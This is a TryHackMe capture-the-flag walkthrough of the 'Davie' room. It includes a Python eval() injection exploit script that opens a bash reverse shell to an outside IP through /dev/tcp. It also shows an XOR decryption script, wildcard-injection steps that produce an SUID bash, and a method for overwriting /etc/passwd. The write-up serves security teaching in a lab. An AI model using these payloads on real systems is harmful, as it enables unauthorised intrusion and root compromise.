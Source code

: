 ```yaml
---
title: Davie - TryHackMe Walkthrough
date: 2024-01-25 00:00:00 +0000
categories: [TryHackMe, Web Exploitation]
tags: [web, python, eval, xor, privilege-escalation, tryhackme]
---
```


# Davie - TryHackMe Walkthrough

![Davie Room Banner](https://github.com/user-attachments/assets/22114f94-ac64-4aa0-b5a5-207e6e52dfd7)

*"Appearances can be deceiving, and in cybersecurity, what you see isn't always what you get."*

## Introduction

In this TryHackMe challenge, we're presented with a seemingly simple mathematical equation solver website. However, as we'll discover, there's more than meets the eye. The ability to download the source code provides us with our first clue into finding the vulnerability that will grant us initial access.

![Davie Homepage](https://github.com/user-attachments/assets/f4d7db0c-fe6e-4f2f-b293-6992889f0818)

## Initial Reconnaissance

Let's start by scanning the target machine to understand what services are running:

```bash
nmap -sC -sV -A -oN nmap_result MACHINE_IP
```

The scan reveals two open ports:
- Port 22: Running OpenSSH 8.2p1
- Port 5000: A Python web application using Werkzeug

## Gaining Initial Access

The web application's source code reveals an interesting vulnerability in the `app.py` file. The use of the `eval()` function with user input creates a dangerous situation. Here's the vulnerable code:

```python
@app.route("/")
def bisect(xa,xb):
    added = xa + " + " + xb
    c = eval(added)
    c = int(c)/2
    ya = (int(xa)**6) - int(xa) - 1 #f(a)
    yb = (int(xb)**6) - int(xb) - 1 #f(b)
```

We can exploit this by injecting Python code through the `eval()` function. Here's our exploit script:

```python
import requests

url = "http://MACHINE_IP:5000"
rev_shell = "__import__('os').system(\"bash+-c+'bash+-i+>%26+/dev/tcp/10.18.11.118/9001+0>%261'\")#"
payload = f"xa={rev_shell}&xb=3"
headers = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0",
    "Content-Type": "application/x-www-form-urlencoded"
}

response = requests.post(url, data=payload, headers=headers)
```

## Lateral Movement

After gaining access as user 'bruce', we discover:
- The first flag
- A note from Gordon about an encoded password
- Sudo privileges to run `/usr/bin/python3 /opt/encrypt.py` as user 'gordon'

The encryption script uses XOR with base64 encoding. We can exploit this using a known-plaintext attack. Here's our decryption script:

```python
import base64
import sys

def cut_until_repeat(s):
    for i in range(1, len(s) // 2 + 1):
        if s[:i] * (len(s) // i) + s[:len(s) % i] == s:
            return s[:i]
    return s

def decode_string(base64_string):
    base64_bytes = base64_string.encode('ascii')
    decoded_string = base64.b64decode(base64_bytes)
    return decoded_string.decode('ascii')

def xor(password, key):
    xor = ""
    for i in range(0, min(len(password), len(key))):
        xor += chr(ord(password[i]) ^ ord(key[i%len(key)]))
    return xor

# Usage: python3 xor.py <password> <base64_string> <encrypted_secret>
```

## Privilege Escalation

As user 'gordon', we discover:
- The second flag
- A backup system that copies files from `/home/gordon/reports/` to `/home/gordon/backups/`

The backup script uses a wildcard (`*`) which we can exploit:

```bash
#!/bin/bash
cd /home/gordon/reports/
cp * /home/gordon/backups/
```

We can exploit this by:
1. Copying `/bin/bash` to the reports directory
2. Setting the SUID bit
3. Creating a file named `--preserve=mode`

After the backup script runs, we can execute the copied bash binary to get a root shell:

```bash
./bash -p
```

## Alternative Privilege Escalation Method

Another approach involves manipulating the `/etc/passwd` file:
1. Create a modified copy of `/etc/passwd` in the reports directory
2. Change gordon's UID and GID to 0
3. Create a symbolic link from backups to `/etc`
4. Wait for the backup script to overwrite the real `/etc/passwd`

## Conclusion

This machine demonstrates several important security concepts:
- The dangers of using `eval()` with user input
- Weak encryption implementations
- Wildcard injection vulnerabilities
- File permission manipulation

Remember: in cybersecurity, the most dangerous vulnerabilities are often hidden in plain sight, waiting to be discovered by those who know where to look. 